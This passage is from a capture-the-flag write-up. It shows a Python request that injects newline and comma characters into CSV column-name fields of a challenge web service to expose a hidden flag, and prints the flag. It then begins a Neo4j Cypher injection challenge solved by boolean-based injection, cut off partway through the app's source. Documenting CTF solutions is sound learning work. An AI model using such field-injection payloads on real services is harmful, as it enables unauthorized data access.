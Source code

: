 If we send newline `\n` and `,` the resulting CSV table will be moved and the word `FLAG` will move to the first column
```python
import requests

url = "https://tbtl-rnd-for-data-science.chals.io/generate"

data = {
    "numColumns": 2,
    "columnName0": "test\n",
    "columnName1": "rank,", 
    "delimiter": ","
}
r = requests.post(url, data=data)
print(r.text)
```

![Alt text](_attachments/image-6.png)

flag: **TBTL{d4T4_5c13nc3_15_n07_f0r_r0ck135}**

# web/Mexico City Tour
`#neo4j` `#graphql`

Injection challenge in neo4j graphql. 

> The query searches a start station and end station id and does some calculation and returns the distance from each other. There is a station in which the flag is hidden. Another challenge is that it converts the distance returned from the query as an integer


For my solution, I moslty read the docs and used chat-gpt for this challenge 
https://neo4j.com/docs/cypher-manual/current/functions/string/

I was trying to convert to ascii code initially but not able to make it work. This just became boolean-based injection in the end.

source code
```python
from flask import Flask, render_template, url_for, redirect, request
from neo4j import GraphDatabase

app = Flask(__name__)

URI = "bolt://localhost:7687"
AUTH = ("", "")


def query(input_query):
    with GraphDatabase.driver(URI, auth=AUTH) as driver:
        driver.verify_connectivity()
```